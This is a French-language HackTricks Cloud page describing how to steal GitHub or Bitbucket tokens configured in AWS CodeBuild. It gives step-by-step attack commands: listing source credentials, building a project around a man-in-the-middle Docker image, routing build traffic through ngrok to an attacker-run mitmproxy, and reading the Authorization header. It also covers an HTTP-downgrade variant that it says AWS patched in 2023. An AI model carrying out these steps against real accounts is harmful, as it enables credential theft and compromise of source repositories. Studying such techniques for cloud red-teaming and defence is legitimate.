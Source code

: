 # AWS Codebuild - Fuite de Token

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Récupérer les Tokens Configurés Github/Bitbucket

Premièrement, vérifiez s'il y a des identifiants source configurés que vous pourriez récupérer :
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Si vous découvrez que l'authentification, par exemple à Github, est configurée dans le compte, vous pouvez **exfiltrer** cet **accès** (**jeton GH ou jeton OAuth**) en faisant en sorte que Codebuild **utilise une image Docker spécifique** pour exécuter la construction du projet.

À cette fin, vous pourriez **créer un nouveau projet Codebuild** ou changer l'**environnement** d'un projet existant pour définir l'**image Docker**.

L'image Docker que vous pourriez utiliser est [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Il s'agit d'une image Docker très basique qui définira les **variables d'environnement `https_proxy`**, **`http_proxy`** et **`SSL_CERT_FILE`**. Cela vous permettra d'intercepter la plupart du trafic de l'hôte indiqué dans **`https_proxy`** et **`http_proxy`** et de faire confiance au CERT SSL indiqué dans **`SSL_CERT_FILE`**.

1. **Créez et téléchargez votre propre image Docker MitM**
* Suivez les instructions du dépôt pour définir votre adresse IP de proxy et définir votre certificat SSL et **construisez l'image Docker**.
* **NE DÉFINISSEZ PAS `http_proxy`** pour ne pas intercepter les requêtes vers le point de terminaison des métadonnées.
* Vous pourriez utiliser **`ngrok`** comme `ngrok tcp 4444` pour définir le proxy vers votre hôte.
* Une fois que vous avez construit l'image Docker, **téléchargez-la dans un dépôt public** (Dockerhub, ECR...)
2. **Définissez l'environnement**
* Créez un **nouveau projet Codebuild** ou **modifiez** l'environnement d'un projet existant.
* Configurez le projet pour utiliser l'**image Docker générée précédemment**
*

<figure><img src="../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>
3. **Définissez le proxy MitM sur votre hôte**
* Comme indiqué dans le **dépôt Github**, vous pourriez utiliser quelque chose comme :
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
4. **Exécutez le build et capturez les identifiants**

*   Vous pouvez voir le token dans l'en-tête **Authorization** :

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Cela pourrait également être fait depuis le aws cli avec quelque chose comme

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via le protocole HTTP~~

{% hint style="success" %}
**Cette vulnérabilité a été corrigée par AWS à un moment donné de la semaine du 20 février 2023 (je pense vendredi). Donc un attaquant ne peut plus en abuser :)**
{% endhint %}

Un attaquant avec des **permissions élevées sur un CodeBuild pourrait provoquer une fuite du token Github/Bitbucket** configuré ou, si les permissions étaient configurées via OAuth, du **token OAuth temporaire utilisé pour accéder au code**.

* Un attaquant pourrait ajouter les variables d'environnement **http\_proxy** et **https\_proxy** au projet CodeBuild en les pointant vers sa machine (par exemple `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

* Ensuite, changer l'URL du dépôt github pour utiliser HTTP au lieu de HTTPS, par exemple : **http://**github.com/carlospolop-forks/TestActions
* Puis, exécuter l'exemple de base de [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) sur le port indiqué par les variables proxy (http\_proxy et https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Enfin, cliquez sur **Build the project**, les **credentials** seront **envoyés en clair** (base64) au port mitm :

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Maintenant, un attaquant pourra utiliser le token depuis sa machine, lister tous les privilèges qu'il possède et les (ab)user plus facilement qu'en utilisant directement le service CodeBuild.
{% endhint %}

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
